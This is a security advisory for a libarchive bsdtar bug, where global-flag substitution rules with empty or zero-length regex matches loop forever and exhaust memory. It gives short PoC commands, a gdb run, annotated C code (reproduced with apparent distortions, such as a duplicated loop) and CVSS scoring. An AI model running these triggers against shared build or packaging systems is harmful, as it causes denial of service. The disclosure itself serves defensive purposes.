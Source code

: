 # [CVE-2025-60753] Infinite Loop causes Out-of-Memory in `apply_substitution()` at `/libarchive/tar/subst.c`

## Summary

`bsdtar -s` pathname-rewrite rules can trigger an infinite substitution loop that repeatedly appends to the output buffer without advancing the input pointer. This causes unbounded memory growth and eventual OOM (Denial of Service). The loop is reachable whenever the search pattern can match the empty string under `/g` (global) replacement—e.g., an **empty pattern** or anchors like `^`.

---

## Details

Affected component: `bsdtar` `-s` option (pathname substitution), `apply_substitution()` in `/libarchive/tar/subst.c`.

- Path: `/libarchive/tar/subst.c`
- Functions:
    - `add_substitution(...)`: parses `s D/pattern/D/replace/D/flags` (D means delimeter) and compiles a POSIX Basic RE. It **permits empty patterns** (e.g., `pp...` when `p` is the delimiter).
    - `apply_substitution(...)`: runs the compiled regex and performs replacements:
        - On each match, it appends the unmatched prefix and the replacement to `result`.
        - It then does `name += matches[0].rm_eo;`
        - If `rule->global` is set, it loops again (`while (1)`) to find the next match on the **remaining string**.

**Bug condition:**

For patterns that can match the empty string (length 0), POSIX `regexec()` returns a match with `rm_eo == rm_so`. In that case, the code does not advance `name` (adds zero), so the next `regexec()` searches the same position, returns the same zero-length match, and the loop repeats indefinitely as long as `rule->global` is true. Because each iteration appends replacement bytes, the output allocation grows until the process is killed by OOM.

**Why it’s easy to hit:**

- **Empty pattern**: the parser accepts `D D` back-to-back delimiters (e.g., `ppApg` → pattern `""`, replace `"A"`, flags `"g"`).
- **Zero-length regexes** (even with non-empty patterns): `^`, `$`, `a*`, `.*`, etc., can all match an empty substring and trigger the same loop under `/g`.

---

## PoC

### Empty pattern + global

Create any non-empty directory `dir` (or file `a.txt`) with at least one file (content irrelevant), then run:

```bash
bsdtar -s 'ppApg' -cf /dev/null dir

# 0-length match + g 
bsdtar -s '/^/A/g' -cf /dev/null dir
bsdtar -s '/a*/A/g' -cf /dev/null dir
```

Explanation:

- Delimiter: `p` (can possible `/` and so on)
- Pattern: empty (`""`) — because the second `p` immediately closes it
- Replacement: `A`
- Flags: `g` (global)
    
    Result: `apply_substitution()` loops forever appending `A` without advancing `name`, memory usage climbs until OOM.
    

---

### Static Analysis

apply_substitution() code:

```c
while (1) {
    // If no match for this rule, stop processing.
    if (regexec(&rule->re, name, 10, matches, 0))
        break;

    got_match = 1;
    print_match |= rule->print; // keep existing print flag (do not clear)

    // 1) Append the portion of the original before the match to 'result'
    while (1) {
        if (regexec(&rule->re, name, 10, matches, 0))
            break;

        got_match = 1;
        print_match |= rule->print;

        // 1-1) realloc and append the prefix (text before the match)
        realloc_strncat(result, name, matches[0].rm_so);

        // 2) Interpret the replacement string 'rule->result' and append
        for (i = 0, j = 0; rule->result[i] != '\0'; ++i) {
            if (rule->result[i] == '~') {
                realloc_strncat(result, rule->result + j, i - j);
                realloc_strncat(result, name + matches[0].rm_so, matches[0].rm_eo - matches[0].rm_so);
                j = i + 1;
                continue;
            }
            if (rule->result[i] != '\\')
                continue;
        }

        // 3) After the loop, append any remaining literal tail of 'rule->result'
        realloc_strcat(result, rule->result + j);

        // 4) Advance 'name' to the end of the current match
        name += matches[0].rm_eo;

        // 5) If 'global' is set, keep looping; otherwise, stop
        if (!rule->global)  // rule->global == 1 → continue the while-loop
            break;
    }
}

```

[1] First iteration

1 ) `regexec(&rule->re, name, 10, matches, 0)`

- The pattern is empty, so it **always matches** (returns 0).
- `matches[0].rm_so == 0`, `matches[0].rm_eo == 0`
    
    (a **zero-length match** at the current `name` position; nothing is consumed)
    

1-1 ) `realloc_strncat(result, name, matches[0].rm_so)`

- Since `matches[0].rm_so == 0`, **copy 0 bytes**.

2 ) Exit the replacement-loop body

- There’s no `~` (or other special markers), so nothing special to process.

3 ) `realloc_strcat(result, rule->result + j)`

- After the loop, append from `+j` into `result`.
- Here `j = 0`, so one `'A'` is appended to `result`.

4 ) `name += matches[0].rm_eo;`

- Advance `name` by `rm_eo` → but it’s 0, so **no change**.

5 ) `if (!rule->global) break;`

- `rule->global == 1`, so **no break**; go back to the start of `while (1)`.

---

[2] Second iteration

- Proceeds the same way:
    - `regexec` again returns 0.
    - `matches[0]` is still `(0, 0)`.
    - `realloc_strncat(..., len = 0)` copies **0 bytes** again.
- `realloc_strcat(result, rule->result + j)`
    - `j` is still 0, so another `'A'` is appended.
- `name += 0` → no forward progress.
- `global == 1` → loop continues.

→ As a result, `realloc_strcat` keeps appending `'A'` indefinitely while `name` never advances, causing an **infinite loop** and unbounded growth of `result`.

### Dynamic Analysis

`gdb -q --args ./bsdtar -s '//ABCDABCDA/g' -cf test.tar a.txt` 

![image.png](./images/gdb.png)

- Infinite heap increased through realloc → Increase heap chunk infinite

![image.png](./images/run_program.png)

- Finally process killed

---

## Impact

- **Denial of Service:** Unbounded memory growth culminating in OOM kill; CPU consumed in tight loop.
- **Reliability & availability risk:** A single crafted `s` rule can crash CLI workflows, CI/CD jobs, build systems, or server-side packaging services that invoke `bsdtar`.
- **Blast radius:** If `bsdtar` runs in privileged automation or shared infrastructure, repeated invocations can degrade or terminate other co-located services via memory pressure.

**Conditions to exploit:** Attacker (or untrusted input) can influence the `-s` rule used by `bsdtar` (e.g., user-facing tooling that forwards substitution rules, automated pipelines reading rules from configuration, or APIs that wrap `bsdtar`).

Likely CWEs: **CWE-835 (Loop with Unreachable Exit Condition)**, **CWE-400 (Uncontrolled Resource Consumption)**.

Impact version : ~3.8.1 (libarchive)

### **CVSS v3 base metrics**

Attack vector : **Local**

Attack complexity : **Low**

Privileges required : **None**

User interaction : **Required**

Scope : **Unchanged**

Confidentiality : **None**

Integrity : **None**

Availability : **High**
